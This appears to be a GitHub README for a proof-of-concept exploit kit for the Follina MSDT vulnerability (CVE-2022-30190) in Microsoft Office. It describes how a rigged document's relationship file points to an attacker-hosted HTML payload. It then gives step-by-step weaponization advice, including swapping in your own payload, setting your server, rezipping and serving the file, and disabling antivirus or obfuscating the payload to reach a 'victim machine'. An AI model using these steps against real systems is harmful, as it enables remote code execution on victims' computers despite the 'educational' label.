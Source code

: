 # POC-msdt-follina

OK, as you know, or don't know, CVE-2022-30190 vulnerability can be described as like an attacker makes some MS Office, puts inside it's structure some link ( html ), and with the help of that, he manage run a malicious code. OLE object (word/_rels/document.xml.rels)
<br>
Data phat puts inside, may describe link in the tags with attributes "TYPE=" and "Target=". Link at the target attribute takes to the HTML, which in our case is our PAYLOAD, so that triggers the MSDT protocol. For example -- > "Target="http://Server-Host-Payload:Port/Payload.html".

Now, when opened, the attacker document start to run, and trigger the MSDT.
The document can run even in ProtectedMode, and more - You dont even need macros enabled.

You can Modifiy the Payload at www, and insert what ever you want, just to check it on your victim machine.
For example --- > After edit the file with Gedit, at [char]34+'[Some/Base64/Syntax/', you can replace it with another Payload of yours.


This Document is already put together, just for the POC, so all you have to change is the Payload script, which in our case is the 'index.html' site, which holds inside of it a '<script>' tags that stored our Payload, and secondly, at /doc/word/_rels directory, there is a file named 'document.xml.rels. Edit it, and replace the '{YourServerHere}' with yours.

  
 After made all of that, just rezip the doc file, you can use 7-zip of whatever you like, open a python server, and good luck. Was Tested on  Microsoft Office Document 2007 with no problems, tell me if you managed to get it work on new versions.
  
  For now, dont forget to de-active the real time protection/firewall, else you can obfuscate your PAYLOAD, but for this is all for now.
  # Educational Purpose Only!
  ![POC-test](https://user-images.githubusercontent.com/90532971/172916363-51b0b457-fb9a-44a2-994d-0f396c07e547.gif)

  # Usage
  Made a little py script which can help for these who have a little trouble.
  1. Put your local machine ip, with 'http' where the payload is, for example: http://Server:Port/Pay.html
  2. choose a command to be executed, for example: "notepad" or using ps scripts.
*Notice: When running the py script, you cannot run it again on the same 'www' directory and 'doc'.
  if you want to use it again, copy the  inside 'BackUp' directory again, and run the py again.
  
